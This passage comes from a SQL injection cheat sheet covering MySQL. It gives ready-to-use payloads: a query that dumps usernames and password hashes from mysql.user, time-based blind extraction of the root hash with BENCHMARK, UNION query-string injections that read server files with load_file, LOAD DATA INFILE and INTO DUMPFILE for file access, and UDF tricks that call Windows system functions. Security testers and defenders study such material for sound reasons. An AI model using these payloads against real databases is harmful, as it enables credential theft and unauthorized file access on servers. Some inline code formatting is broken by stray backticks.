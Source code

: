 ## Extra MySQL Notes

-   Sub Queries are working only MySQL 4.1+
-   Users
    -   `SELECT User,Password FROM mysql.user;`
-   `SELECT 1,1 UNION SELECT IF(SUBSTRING(Password,1,1)='2',BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = 'root';`
-   `SEL``ECT ... INTO DUMPFILE`
    -   `Write quer``y into a **new file** (_can not modify existing file_s)`
-   UDF Function
    -   `create function LockWorkStation returns integer soname 'user32';`
    -   `select LockWorkStation();` 
    -   `create function ExitProcess returns integer soname 'kernel32';`
    -   `select exitprocess();`
-   `SELECT USER();`
-   `SELECT password,USER() FROM mysql.user;`
-   First byte of admin hash
    -   `SELECT SUBSTRING(user_password,1,1) FROM mb_users WHERE user_group = 1;`
-   Read File
    -   `query.php?user=1+union+select+load_file(0x63...),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`
-   MySQL Load Data infile   
    -   **By default it's not available !**
        -   `create table foo( line blob );   
            load data infile 'c:/boot.ini' into table foo;   
            select * from foo;`
-   More Timing in MySQL
-   `select benchmark( 500000, sha1( 'test' ) );`
-   `query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`
-   `select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' );` **Enumeration data, Guessed Brute Force**
    -   `select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`

#### Potentially Useful MySQL Functions

-   `MD5()`   
    MD5 Hashing
-   `SHA1()`   
    SHA1 Hashing
-   `PASSWORD()`
-   `ENCODE()`
-   `COMPRESS()`   
    Compress data, can be great in large binary reading in Blind SQL Injections.
-   `ROW_COUNT()`
-   `SCHEMA()`
-   `VERSION()`   
    Same as `@@version`

## Second Order SQL Injections
